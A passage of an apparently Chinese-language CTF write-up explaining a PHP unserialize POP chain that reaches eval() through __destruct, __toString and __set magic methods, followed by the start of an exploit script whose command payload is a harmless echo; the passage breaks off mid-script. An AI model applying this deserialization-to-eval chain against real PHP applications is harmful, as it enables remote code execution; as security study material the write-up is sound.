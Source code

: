 ## 思路
定位命令执行函数eval与反序列化的触发函数`file_get_contents()`，由于`eval`处于`__set()`魔术方法中,在代码中寻找`$xxx->yyy->zzz`这样形式的函数可以通过将`yyy`赋值为一个新的`Reader类`从而出现`zzz`在`Reader类`中不存在的情况以此触发`__set()`魔术方法，同样的去优先看了`__toString()`魔术方法，就有这样的使用

![](attachments/Pasted%20image%2020230311145233.png)

现在找`__toString()`的触发，主要找`echo 参数` 

![](attachments/Pasted%20image%2020230311145433.png)

找到之后还是`__destruct()`那么pop链就结束了

```txt
new dbCtrl() => $token=new User() => $nickname=new Reader()
								  => $backup = 命令
```

```
## exp
```php
<?php

class dbCtrl
{
    public $token;

    public function __destruct(){
        echo $this->token;
    }
}

Class Reader{
    public function __set($name,$val){
        echo eval($val);
    }
}

class User
{
    public $nickname=null;
    public $backup = "echo('wumonster');";
    public function upload(){
        $uploader=new Upload();
        $uploader->upload();
    }
    public function read(){
        $reader=new reader();
```